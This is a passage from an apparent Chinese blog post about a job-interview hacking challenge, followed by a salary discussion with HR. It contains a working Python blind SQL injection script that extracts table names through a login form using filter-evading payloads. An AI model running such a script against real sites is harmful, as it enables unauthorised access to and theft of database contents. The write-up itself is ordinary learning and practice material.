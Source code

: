 ```plain
import requests
i=0
flag=""
host="http://xxxxx/login.php"
while True:
    head=32
    tail=128
    i=i+1
    while head<tail:
        mid=(head+tail)//2
        # print(mid)
        payload={
            "name":"admin", 'password':"'or/**/if(ascii(substr((select/**/group_concat(table_name)/**/from/**/mysql.innodb_index_stats/**/limit/**/0,1),{0},1))>{1},1,0)#".format(i,mid),
            "submit":"LOGIN"
        }
        res=requests.post(url=host,data=payload)
        if "用户名或密码错误" in res.text:
            tail=mid
        else:
            head=mid+1
    if head!=32:
        flag+=chr(head)
        print(flag)
    else:
        break
print(flag)
```

跑出来一个表名 gtid\_slave\_pos

结合上面那条 SQL 语句，我就在猜...

会不会是 flag 用户的密码就是 flag 的值呢？

带着这个表名，还有之前前端那条 SQL 语句的字段名去查

试了很多次，都没能跑出来...不知道为啥

最后还是没做出来...

### 结果

直接开摆了，跟 HR 说做出了第一题，第二题卡住了

聊了一下，想争取 8-9K 的...

但 HR 说应届生只能给到 6-7K，转正后可以争取

我不大满意，于是这次面试就匆匆结束了

我也开始准备下一场面试了....
